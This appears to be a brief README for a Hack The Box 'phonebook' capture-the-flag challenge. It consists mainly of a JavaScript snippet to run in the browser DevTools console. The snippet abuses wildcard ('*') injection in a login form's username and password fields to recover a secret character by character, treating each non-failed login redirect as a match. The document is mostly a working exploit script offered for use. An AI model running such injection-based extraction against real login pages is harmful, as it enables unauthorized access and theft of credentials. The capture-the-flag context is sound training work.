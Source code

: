 # phonebook
You can now login using the workstation username and password! - Reese

```js
// run it in the DevTools Console
(async () => {
    let flag="HTB",dict="}{ abcdefghijklmnopqrstuvwxyz_0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!~.?@#$%^&-+=?<>😾".split('')
    while(1) {
        for (var s of dict) {
            const {url:u} = await fetch('/login',{body:new URLSearchParams({username:'*',password:flag+s+'*'}),method:"POST"})
            if (console.log(flag+s)||!u.includes("failed")&&(flag+=s)) break
        }
        if (['}','😾'].includes(s)) break
    }
})()
```
